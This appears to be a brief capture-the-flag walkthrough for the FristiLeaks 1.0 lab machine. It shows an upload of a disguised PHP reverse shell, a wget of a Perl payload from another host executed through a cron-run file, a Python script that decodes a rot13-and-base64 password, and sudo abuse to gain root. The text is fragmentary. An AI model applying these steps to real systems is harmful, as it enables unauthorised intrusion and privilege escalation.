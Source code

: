 By dirb and decode:   
eezeepz   
keKkeKKeKKeKkEkkEk   
then upload:   
http://192.168.139.145/fristi/uploads/revshell.php.jpg  			

```shell
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls -aul
bash-4.1$ cat notes.txt
bash-4.1$ wget 192.168.139.129/perl.pl
Get admin ID:
bash-4.1$ echo "/usr/bin/perl /tmp/perl.pl" > /tmp/runthis
[admin@localhost /]$ whoami
whoami
admin
```shell
Find out the txt:
=RFn0AKnlMHMPIzpyuTI0ITG
Need make a script:
decrypt.py
----------------------------------------------------
import base64, codecs,sys
def decodeString(str):
	rot13crypt=codecs.decode(str[::-1], 'rot13')
	return base64.b64decode(rot13crypt)
print decodeString(sys.argv[1])
----------------------------------------------------

Optional:
```shell
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ cd /tmp
cd /tmp
bash-4.1$ ls
ls
cronresult  runthis
bash-4.1$ cat cronresult
bash-4.1$ cd /home/admin
```
Decrypt password:

LetThereBeFristi!

```shell
sudo -u fristi ./doCom chmod -R 777 /root
```
or
```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash

Final:
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```
